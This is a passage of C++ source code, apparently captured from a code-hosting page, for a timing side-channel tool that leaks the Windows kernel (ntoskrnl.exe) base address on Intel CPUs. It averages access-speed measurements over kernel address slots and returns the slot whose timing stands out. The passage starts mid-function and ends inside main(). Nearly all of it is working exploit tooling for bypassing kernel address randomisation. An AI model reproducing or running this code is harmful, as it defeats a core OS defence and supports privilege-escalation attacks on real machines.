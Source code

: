 ```cpp
	}

	printf("\nAverage Speed -> %u", averageSpeed);

	unsigned int BaseSpeed1 = averageSpeed / 5;
	unsigned int BaseSpeed2 = averageSpeed / 10;

	// printf("\nBaseSpeed1 -> %u", BaseSpeed1);
	// printf("\nBaseSpeed2 -> %u\n", BaseSpeed2);

	for (UINT64 i = 0; i < 0x8000 - 0xc; i++)
	{
		int average = 0;
		for (UINT64 x = 0; x < 0xc; x++)
		{
			if (Speed[i + x] >= averageSpeed - BaseSpeed2)
			{
				average = -1;
				break;
			}
			average += Speed[i + x];
		}
		if (average == -1)
		{
			continue;
		}
		average /= 0xC;
		if (average < (averageSpeed - BaseSpeed1))
		{
			// printf("\n[Kernel Base] -> 0x%p\n\t\\__[Time] -> %u\n", 0xfffff80000000000 + (i * 0x100000), Speed[i]);
			// printf("\nAddr -> 0x%p", 0xfffff80000000000 + (i * 0x100000));
			return (FinalAddress = 0xfffff80000000000 + (i * 0x100000));
		}
	}

	return 0;
}

int main() {

	UINT64 Addr = 0;
	UINT64 Comp = 0;
	unsigned int i = 0;
	while (1) {
		printf("\n\n[INTEL CPU Based NT Base leaker] -> execution Number (%d)\n", i);

		if (i >= 1) {
			Sleep(1000);
		}

		if (((Addr = getNtBase())) == 0) {
			printf("\n\t[ERROR] Error getting the \"ntoskrnl.exe\" base!\n");
			i++;
			continue;
		}

		if (Addr != (getNtBase())) {
			printf("\n\t[ERROR] The address leaked is not the same! Repeating the process...\n");
			i++;
			continue;
		}
		else {
```